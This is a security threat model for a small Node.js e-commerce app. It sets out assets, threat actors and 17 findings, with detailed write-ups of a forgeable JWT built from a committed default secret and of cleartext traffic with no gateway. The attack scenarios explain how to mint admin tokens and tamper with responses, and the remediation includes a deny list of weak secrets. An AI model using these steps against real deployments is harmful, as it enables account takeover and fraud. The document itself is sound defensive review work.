









# Widget Shop — Threat Model (as-built)

**Date:** 2026-09-15
**Scope:** `DESIGN.md` (intended design) vs. `Node JS/` (actual implementation: `api/`, `web/`, `fauxpay/`, Docker/Compose/nginx config)
**Method:** Full read of every source file under `Node JS/` excluding `node_modules` and `package-lock.json`. All claims below are verified against code, not against the design document.

---

## 1. System Overview

Widget Shop is a small e-commerce application. It provides:

- **Catalog browsing and search** — public, unauthenticated (`GET /api/widgets`, `/api/widgets/:id`, `/api/categories`).
- **Registration / login** — email + password, bcrypt-hashed, JWT issued on success.
- **Cart** — one cart per user, add/update/remove line items.
- **Checkout** — server-side re-pricing, order + order_items creation, stock decrement, charge via the "FauxPay" payment processor stand-in.
- **Order history** — own orders only.
- **Reviews** — 1-5 star rating + free-text body, gated on a verified purchase, one review per (user, widget).
- **Admin console** — catalog CRUD, price/stock management, categories, read-only view of all orders, user role assignment, review moderation.
- **Customer Service console** — search all orders by customer email, view any order, issue full/partial refunds, create and progress exchanges.

### Actors / roles

| Actor | How they use the system |
| --- | --- |
| **Guest** (anonymous) | Browses and searches the catalog, reads reviews, registers, logs in. Cannot hold a cart (all cart routes require auth). |
| **Customer** (self-service, `role='customer'`, the registration default) | Manages own addresses, cart, checkout, own order history, writes/edits/deletes own reviews. |
| **Admin** (`role='admin'`, seeded or promoted) | Manages catalog, prices, stock, categories; reads all orders; assigns roles to any user; deletes any review. |
| **Customer Service** (`role='customer_service'`, seeded or promoted) | Reads all orders and customer emails; issues refunds against payments; creates and transitions exchanges. |
| **Payment processor operator (FauxPay)** | In the as-built system FauxPay is a container *inside* the Compose stack, not an external third party — itself a divergence (see section 7). |

### Actual API surface implemented

```
POST   /api/auth/register                  (public)
POST   /api/auth/login                     (public)
GET    /api/widgets                        (public)
GET    /api/widgets/:id                    (public)
GET    /api/categories                     (public)
GET    /api/widgets/:id/reviews            (public)
POST   /api/widgets/:id/reviews            (auth)
PATCH  /api/reviews/:id                    (auth, owner)
DELETE /api/reviews/:id                    (auth, owner)
GET    /api/users/me                       (auth)
GET    /api/users/me/addresses             (auth)
POST   /api/users/me/addresses             (auth)
GET    /api/cart                           (auth)
POST   /api/cart/items                     (auth)
PATCH  /api/cart/items/:itemId             (auth, cart-scoped)
DELETE /api/cart/items/:itemId             (auth, cart-scoped)
POST   /api/orders                         (auth)
GET    /api/orders                         (auth, own)
GET    /api/orders/:id                     (auth, own)
POST   /api/admin/widgets                  (admin)
PATCH  /api/admin/widgets/:id              (admin)
DELETE /api/admin/widgets/:id              (admin)
POST   /api/admin/categories               (admin)
GET    /api/admin/orders                   (admin)
PATCH  /api/admin/users/:id/role           (admin)
DELETE /api/admin/reviews/:id              (admin)
GET    /api/cs/orders                      (customer_service)
GET    /api/cs/orders/:id                  (customer_service)
POST   /api/cs/orders/:id/refunds          (customer_service)
POST   /api/cs/orders/:id/exchanges        (customer_service)
PATCH  /api/cs/exchanges/:id               (customer_service)
GET    /health                             (public)
```

**Designed but entirely absent from the implementation:** `POST /api/auth/forgot-password`, `POST /api/auth/reset-password`, `POST /api/auth/change-password`, `POST /api/auth/refresh`, `POST /api/auth/logout`. The SPA calls `/api/auth/logout` (`web/src/api/client.js:38`) against a route that does not exist.

---

## 2. Trust Boundaries & As-Built Architecture

The design (`DESIGN.md` 3.1, 3.3, 11.1, 11.2) specifies a dedicated **`gateway` container** as the sole public entry point performing TLS termination, rate limiting and JWT validation, with `web` and `api` unreachable from the host, and the payment processor as an **external** system outside the trust boundary.

**None of that is what was built.** `Node JS/docker-compose.yml` has no `gateway` service. The `web` container (plain nginx, `listen 80`, no TLS) is published on host `8080` and is the only reverse proxy. It proxies both `/api/` to `api:3000` **and** `/fauxpay/` to `fauxpay:4000`, making the payment processor a publicly reachable path on our own origin. There is no rate limiting, no edge JWT validation, and no TLS anywhere.



### Trust boundaries in the as-built system

| # | Boundary | Crossing | Controls present | Controls missing |
| --- | --- | --- | --- | --- |
| TB1 | Internet to `web` (nginx) | All client traffic, host port 8080 | none | TLS, rate limiting, JWT validation, security headers, WAF |
| TB2 | `web` to `api` | `/api/*` proxied verbatim | none (transparent proxy) | no verified-identity header; `api` must do all authN itself |
| TB3 | `web` to `fauxpay` | `/fauxpay/*` proxied verbatim, path-stripped | shared API key on `/charge` and `/refund` only | `/tokenize` unauthenticated; entire processor publicly reachable |
| TB4 | `api` to `db` | knex/pg, parameterized | parameterized queries, db not host-published | no TLS, no least-privilege DB role |
| TB5 | `api` to `fauxpay` | server-to-server HTTP | static bearer API key | no TLS, no idempotency keys, no mTLS |
| TB6 | Customer vs Staff privilege | `requireRole('admin')` / `requireRole('customer_service')` | server-side role middleware present and correct | role baked into a 12h non-revocable JWT |

---

## 3. Assets & Threat Actors

### Assets

| Asset | Where it lives | Value to an attacker |
| --- | --- | --- |
| **Cardholder data (raw PAN, expiry, CVV)** | Transits browser to `web` nginx to `fauxpay`; `fauxpay` keeps last4/brand in memory | Direct card fraud, resale. Because it crosses our own nginx in cleartext HTTP, our infrastructure is in PCI-DSS scope — contrary to the design explicit scope-reduction goal. |
| **Payment card tokens** (`payments.processor_card_token`) | `db` | Replay against `/charge` to make purchases on a victim card. |
| **JWT signing secret** (`JWT_SECRET`) | `.env`, `.env.example`, process env | Mint arbitrary identities and roles — complete authentication bypass and full admin takeover. |
| **FauxPay API key** (`FAUXPAY_API_KEY`) | `.env`, `.env.example`, `docker-compose.yml` default | Issue arbitrary charges and refunds directly against the processor. |
| **Customer PII** (`users.email`, `full_name`; `addresses` line1/city/state/postal/country) | `db` | Phishing, identity theft, doxxing, resale. Bulk-extractable via staff endpoints. |
| **Order / payment / refund history** | `db` | Competitive intelligence, targeted social engineering. |
| **Money movement — refunds** | `POST /api/cs/orders/:id/refunds` to `fauxpay /refund` | Direct financial loss; moving value out of the merchant account. |
| **Goods — exchanges** | `POST /api/cs/orders/:id/exchanges`, `PATCH /api/cs/exchanges/:id` | Free merchandise: swap a cheap purchased item for an expensive replacement, with no settlement and no return required. |
| **Inventory** (`widgets.stock_quantity`) | `db` | Denial of inventory, lost revenue, competitor sabotage. |
| **Catalog pricing** (`widgets.price_cents`) | `db` | Self-serve discounting to near zero once admin access is obtained. |
| **Review corpus / brand reputation** | `db` | Fake reviews, competitor defamation, review deletion. |
| **Credential store** (`users.password_hash`) | `db` | Offline cracking, then credential reuse against other sites. |

### Threat actors

| Actor | Capability | Motivation |
| --- | --- | --- |
| **Anonymous internet attacker** | HTTP to port 8080; can read the repo (`.env.example`, `docker-compose.yml` defaults, `README.md` seeded credentials, the seed file) | Account takeover, card fraud, refund fraud, defacement |
| **Registered customer** | Valid `customer` JWT; can self-register unlimited accounts | Free or discounted goods, inventory sabotage, fake reviews |
| **Malicious / compromised CS agent** | Valid `customer_service` JWT | Refund fraud, exchange fraud, bulk PII export |
| **Malicious / compromised admin** | Valid `admin` JWT | Price manipulation, role escalation for persistence, review censorship |
| **Network-adjacent attacker** | Passive sniffing and active MITM on cleartext HTTP | Credential, JWT and card-data capture; response tampering |
| **Supply-chain attacker** | Publishes a malicious semver-compatible package version | Code execution in build and runtime containers (`npm install`, unpinned ranges) |

---

## 4. Findings Summary (sorted by severity)

| # | Title | Severity | Impact / Likelihood / Complexity |
|---|---|---|---|
| F-01 | Publicly known default `JWT_SECRET` enables forging any identity incl. admin | **Critical** | 5 / 5 / 5 |
| F-03 | No API Gateway and no TLS — credentials, JWTs and card data in cleartext | **High** | 4 / 4 / 4 |
| F-04 | Payment processor proxied on our public origin; raw PAN/CVV cross our nginx; published processor API key permits arbitrary refunds | **High** | 5 / 4 / 5 |
| F-05 | No rate limiting and no account lockout on `/api/auth/*` | **High** | 4 / 5 / 5 |
| F-06 | Entire section 3.2 session design missing: 12h JWT in `localStorage`, no refresh/rotation/revocation/logout | **High** | 4 / 4 / 4 |
| F-07 | Stock decremented before payment and never restored on failure — denial of inventory | **High** | 4 / 4 / 5 |
| F-08 | Exchange flow: no order-membership validation, no settlement, skippable states | **Medium** | 4 / 3 / 3 |
| F-09 | No password reset or change-password flow; compromise is unrecoverable | **Medium** | 3 / 4 / 3 |
| F-10 | No security headers / no CSP (amplifies F-06 token theft) | **Medium** | 3 / 3 / 3 |
| F-11 | Unbounded staff data-export endpoints enable bulk PII/order harvesting | **Medium** | 3 / 3 / 4 |
| F-12 | Non-atomic refund accounting and no processor idempotency key | **Medium** | 3 / 2 / 3 |
| F-13 | Email address never verified at registration (account pre-hijacking / impersonation) | **Medium** | 2 / 3 / 5 |
| F-14 | No audit logging for role changes, logins, or price changes | **Medium** | 3 / 3 / 2 |
| F-15 | Wildcard CORS (`app.use(cors())`) | **Low** | 2 / 2 / 4 |
| F-16 | nginx container runs as root; unpinned `npm install` in all Dockerfiles | **Low** | 3 / 2 / 2 |
| F-17 | Weak default DB password baked into `docker-compose.yml` | **Low** | 3 / 2 / 2 |
| F-18 | Processor error strings echoed to the client | **Low** | 1 / 3 / 5 |

**Counts:** Critical 1 - High 5 - Medium 7 - Low 4 - **Total 17**

> **Retired finding — F-02.** An earlier revision of this report scored the seeded `admin@widgetshop.test` / `support@widgetshop.test` accounts (password `ChangeMe123!`) as Critical. That was wrong: the seed is not in any automatic startup path. The `migrate` service runs only `migrate:latest` (`docker-compose.yml:28`); seeding requires a deliberate, separate `docker compose run --rm api npm run seed` (`README.md:17`). The fixture is self-evidently non-production — RFC 2606 reserved `.test` addresses, "Default Admin" naming, and a seed that begins by `.del()`-ing all eleven tables including `users`, `orders` and `payments` (`seeds/01_initial_data.js:4-14`), which would destroy a live dataset. It is therefore not a finding. The genuine issue it exposed — that **no production staff-provisioning path exists at all**, making the seed the only way to obtain an admin — is recorded as gap row 41 (section 7) and open question 6 (section 9). Finding IDs F-03 through F-18 are **deliberately not renumbered**, so identifiers stay stable across revisions and against any external tracker.

Scoring key (each 0-5, scored independently): **impact** = consequence if exploited (1 = one user inconvenienced, 5 = complete system takeover); **likelihood** = probability of real-world exploitation (1 = very unlikely, 5 = certain); **complexity** = how accessible the exploit is (1 = privileged local access plus programming skill required, 5 = anonymous internet access with simple commands and no programming knowledge).

---

## 5. Detailed Findings

### F-01 — Publicly known default `JWT_SECRET` enables forging any identity, including admin

**Severity: Critical** - Impact 5 (complete system takeover) - Likelihood 5 (the secret is a literal string in a committed file, and `README.md` instructs you to copy it into `.env`) - Complexity 5 (one `jwt.sign()` call, no auth needed)

**Evidence**
- `Node JS/.env.example:9` — `JWT_SECRET=change-me-to-a-long-random-string` (tracked in git; `git ls-files` confirms `.env.example` is the only env file tracked)
- `Node JS/README.md:8` — `cp .env.example .env`
- `Node JS/.env:9` — same value carried over verbatim
- `Node JS/api/src/server.js:3-6` — only presence is validated, never strength or non-default-ness:
  ```js
  if (!process.env.JWT_SECRET) { console.error('JWT_SECRET environment variable is required'); process.exit(1); }
  ```
- `Node JS/api/src/middleware/auth.js:11` — `req.user = jwt.verify(token, JWT_SECRET);`
- `Node JS/api/src/routes/auth.js:33,48` — claims are `{ sub, email, role }`, so `role` is fully attacker-controlled in a forged token
- `Node JS/api/src/middleware/auth.js:20` — `roles.includes(req.user.role)` trusts that claim

**Attack scenario.** The documented bootstrap path produces a deployment whose HS256 signing key is a value published in the repository. An anonymous attacker signs `{"sub":1,"email":"x","role":"admin"}` with `change-me-to-a-long-random-string` and presents it as `Authorization: Bearer ...`. `requireAuth` verifies it and `requireRole('admin')` / `requireRole('customer_service')` pass. This yields the full admin and CS surface: rewrite all prices, zero stock, promote a persistent account via `PATCH /api/admin/users/:id/role`, dump every order, and issue refunds. `sub` can also be set to any victim user id to read their cart, addresses and orders. This is complete authentication *and* authorization bypass with no credential needed.



**Root cause.** Secret material is supplied as a committed placeholder with no startup validation rejecting known-default or low-entropy values, and the trust in `role` rests entirely on that signature.

**Remediation — fail-closed secret validation plus per-environment generated secrets, moving to asymmetric signing.**

1. Remove the value from `.env.example` so the app cannot start until it is provisioned:
   ```dotenv
   # .env.example
   # REQUIRED. Generate per-environment, never reuse, never commit:
   #   node -e "console.log(require('crypto').randomBytes(48).toString('base64url'))"
   JWT_SECRET=
   ```
2. Reject weak/known secrets at boot (`api/src/server.js`, replacing lines 3-6):
   ```js
   const DENY = new Set([
     'change-me', 'change-me-to-a-long-random-string', 'secret', 'changeme', 'dev', 'test',
   ]);
   const s = process.env.JWT_SECRET || '';
   if (s.length < 32 || DENY.has(s.trim().toLowerCase())) {
     console.error('FATAL: JWT_SECRET must be a unique random value of >= 32 chars.');
     process.exit(1);
   }
   ```
3. Pin the algorithm and bind issuer/audience (`api/src/middleware/auth.js`):
   ```js
   req.user = jwt.verify(token, JWT_SECRET, {
     algorithms: ['HS256'], issuer: 'widgetshop-api', audience: 'widgetshop-web',
   });
   ```
   and add `{ issuer, audience, algorithm: 'HS256' }` to both `jwt.sign()` calls in `routes/auth.js`.
4. Target state: **RS256/EdDSA with a JWKS endpoint** — the private key is held only by the auth issuer and verifiers hold only the public key, so a read-only compromise of the API container or its config no longer yields the ability to mint admin tokens, which a shared HMAC secret always does.
5. Treat the published secret as compromised: rotate it, invalidating all outstanding tokens.

**Mappings.** OWASP Top 10 A02:2021, A05:2021, A07:2021 - OWASP API Top 10 API2:2023 Broken Authentication, API8:2023 Security Misconfiguration - ASVS v5.0 V3.5 (token/key management), V6.4 (secret management), V2.2 - NIST SP 800-57 (key generation/rotation), SP 800-63B 5.1.8
**STRIDE.** Spoofing, Tampering, Elevation of Privilege, Information Disclosure, Repudiation

---

### F-03 — No API Gateway and no TLS: credentials, JWTs and card data traverse the network in cleartext

**Severity: High** - Impact 4 (mass credential and session capture, card data interception) - Likelihood 4 (any shared network, any upstream hop) - Complexity 4 (passive sniffing; free tooling, no programming)

**Evidence**
- `Node JS/docker-compose.yml:2-8` — no `gateway` service at all; `web` is published directly:
  ```yaml
  web:
    build: ./web
    ports:
      - "8080:80"
  ```
- `Node JS/web/nginx.conf:1-2` — `listen 80;` — no `listen 443 ssl`, no certificate, no HTTP-to-HTTPS redirect
- `Node JS/web/nginx.conf:7-15` — plain `proxy_pass` with no `limit_req`, no JWT validation, and only `Host` forwarded (no `X-Forwarded-For`, so IP-based defences downstream are impossible)
- `Node JS/web/Dockerfile:11` — `EXPOSE 80` only
- `DESIGN.md:81` — the API Gateway is the sole public entry point, terminating TLS, rate limiting and validating the access token before anything reaches `api`; `DESIGN.md:996` — `db`, `web` and `api` must not be exposed on host-published ports
- `Node JS/web/src/api/client.js:19` — the bearer token is attached to every request, so every request carries a reusable 12h credential over that cleartext channel

**Attack scenario.** Three design controls are simultaneously absent because the component meant to host them was never built. (a) `POST /api/auth/login` transmits the plaintext password and returns a 12-hour bearer token over HTTP, so a passive observer harvests both. (b) `POST /fauxpay/tokenize` transmits the full PAN, expiry and CVV over the same cleartext channel (F-04). (c) With no TLS there is no integrity protection, so an active MITM can rewrite API responses — altering the `role` field in `GET /api/users/me` to unlock admin UI, or rewriting the served JS bundle to add a keylogger. The absence of single-origin TLS also makes the cookie design in DESIGN 3.2 unimplementable as written.



**Root cause.** The gateway tier specified in the design was never implemented; the SPA static-file nginx was repurposed as the edge proxy without inheriting any of the gateway security responsibilities.

**Remediation — build the dedicated TLS-terminating reverse-proxy gateway and take `web`/`api` off the host network.**

1. Add `gateway/nginx.conf` with TLS termination, HSTS, per-route rate limiting (also remediating F-05 at the edge) and real client-IP forwarding:
   ```nginx
   limit_req_zone $binary_remote_addr zone=auth:10m rate=5r/m;
   limit_req_zone $binary_remote_addr zone=general:10m rate=60r/m;

   server { listen 80 default_server; return 301 https://$host$request_uri; }

   server {
     listen 443 ssl http2;
     ssl_certificate     /etc/nginx/tls/fullchain.pem;
     ssl_certificate_key /etc/nginx/tls/privkey.pem;
     ssl_protocols TLSv1.2 TLSv1.3;
     ssl_ciphers ECDHE+AESGCM:ECDHE+CHACHA20;
     ssl_prefer_server_ciphers off;
     add_header Strict-Transport-Security "max-age=63072000; includeSubDomains" always;

     proxy_set_header Host              $host;
     proxy_set_header X-Real-IP         $remote_addr;
     proxy_set_header X-Forwarded-For   $proxy_add_x_forwarded_for;
     proxy_set_header X-Forwarded-Proto $scheme;

     location /api/auth/ { limit_req zone=auth  burst=5  nodelay; proxy_pass http://api:3000/api/auth/; }
     location /api/      { limit_req zone=general burst=20 nodelay; proxy_pass http://api:3000/api/; }
     location /          { proxy_pass http://web:80/; }
     # NOTE: no /fauxpay/ location — see F-04; the processor must not be proxied by us.
   }
   ```
2. Re-shape `docker-compose.yml` so only the gateway is published and the network is split:
   ```yaml
   services:
     gateway:
       build: ./gateway
       ports: ["443:443", "80:80"]
       volumes: ["./gateway/tls:/etc/nginx/tls:ro"]
       depends_on: [web, api]
       networks: [edge]
     web:
       build: ./web
       expose: ["80"]
       networks: [edge]
     api:
       build: ./api
       env_file: .env
       expose: ["3000"]
       networks: [edge, backend]
     db:
       image: postgres:16-alpine
       expose: ["5432"]
       networks: [backend]
   networks:
     edge:
     backend:
       internal: true
   ```
   `internal: true` on `backend` means the database has no route off-host at all, satisfying `DESIGN.md:928`.
3. In `api/src/app.js` add `app.set('trust proxy', 1);` so the forwarded client IP is authoritative for the application-layer limiter in F-05.

Why this closes the gap: a single TLS-terminating chokepoint restores confidentiality and integrity for passwords, tokens and card data in one place, gives one origin where rate limits and security headers can actually be enforced, and removes the host-published ports that currently let clients bypass any future edge control.

**Mappings.** OWASP Top 10 A02:2021, A05:2021 - OWASP API Top 10 API8:2023 - ASVS v5.0 V9.1 (TLS for all client connections), V9.2, V1.9 - NIST SP 800-52r2, SP 800-53 SC-8/SC-13
**STRIDE.** Information Disclosure, Tampering, Spoofing

---

